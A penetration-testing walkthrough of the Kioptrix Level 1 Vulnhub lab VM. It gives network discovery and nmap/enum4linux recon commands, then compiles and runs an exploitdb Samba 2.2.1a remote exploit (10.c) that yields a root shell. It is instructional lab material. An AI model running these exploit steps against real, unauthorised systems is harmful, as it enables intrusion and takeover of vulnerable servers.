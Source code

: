 ```yaml
---
title: "Kioptrix Level 1"
tags:
  - Vulnhub
  - Kioptrix
  - Samba
---
```

Kioptrix level 1 is a basic Vulnhub VM for beginners. You can download it from [here](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)

### Finding IP address
```sh
netdiscover -r 192.168.1.0/24
```
![netdiscover](https://i.imgur.com/fJU0pJH.png)

So the IP address is 192.168.1.104

### Port Scanning
```sh
nmap -sC -sV -oA nmap/quick 192.168.1.104
```
![nmap](https://i.imgur.com/QWh7QIN.png)

As you can see in the above image, ports 22, 80, 111, 139, 443 are open.

### Exploitation
Since port 80 is open, I opened the website(192.168.1.104:80) in my browser. I did not find anything of our interest.

Next interesting thing for me is, port 139(a samba service). Our nmap scan did not find the version of samba service. Lets enumerate more using samba scripts
```sh
nmap -p 139 --script=smb-vuln* 192.168.1.104
```
nmap with smb-vuln* scripts also did not find the version of samba service. Give up? No. Try Harder.

Let's try enum4linux
```sh
enum4linux -a 192.168.1.104
```
Nothing from enum4linux as well. Give up? No. Try Harder.

Let's see if Metasploit can find the version of samba service.
![msf](https://i.imgur.com/wqYAISy.png)
Great. Samba's version is 2.2.1a

Let's see if we can find any vulnerabilities for samba 2.2.1a in the exploit database.
```sh
searchsploit samba 2.2
```
![searchsploit](https://i.imgur.com/KhOR9ue.png)
There are so many exploits available and we are interested in the last exploit in the above image.

Let's copy the exploit and execute
```sh
cp /usr/share/exploitdb/exploits/multiple/remote/10.c samba.c
gcc samba.c -o sambal
chmod +x sambal
./sambal -b 0 192.168.1.104
```
![exploit](https://i.imgur.com/ZA28eum.png)
We got the root. So we don't need post exploitation for this VM.

Note: Normally we get unprivileged shell. By using privilege escalation techniques we will get the root.
